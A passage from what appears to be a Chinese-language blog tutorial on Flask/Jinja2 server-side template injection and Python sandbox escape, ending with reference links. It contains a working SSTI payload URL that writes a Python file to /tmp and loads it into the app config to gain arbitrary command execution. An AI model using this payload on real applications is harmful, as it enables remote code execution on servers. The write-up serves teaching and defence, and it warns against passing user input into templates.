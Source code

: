 ```python
            e.strerror = 'Unable to load configuration file (%s)' % e.strerror
            raise
        self.from_object(d)
        return True
```
这里我们可以利用file类向tmp目录下写入py文件，然后再对其编译，加载到config变量中  
先进行文件的写入
```
http://192.168.5.128:5000/?name={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/cmd', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}
```
![](/Flask-Jinja2-SSTI-python-沙箱逃逸/6.png)
可以看到成功将文件写入  
然后对其编译加载到config变量中
![](/Flask-Jinja2-SSTI-python-沙箱逃逸/7.png)
可以看到成功的将变量注册到了config中
![](/Flask-Jinja2-SSTI-python-沙箱逃逸/8.png)
接下来就可以任意命令执行了
![](/Flask-Jinja2-SSTI-python-沙箱逃逸/9.png)
  
因此Jinja2中并不能因为其是一个沙箱环境，就忽视了SSTI的危害。  
切记不能将用户输入传递到模板当中，至少目前情况可以直接get整个物理机的shell





# Reference link
https://blog.0kami.cn/2016/09/16/old-python-sandbox-escape/  
https://hatboy.github.io/2018/04/19/Python沙箱逃逸总结/  
https://xz.aliyun.com/t/52
http://www.freebuf.com/articles/web/98928.html
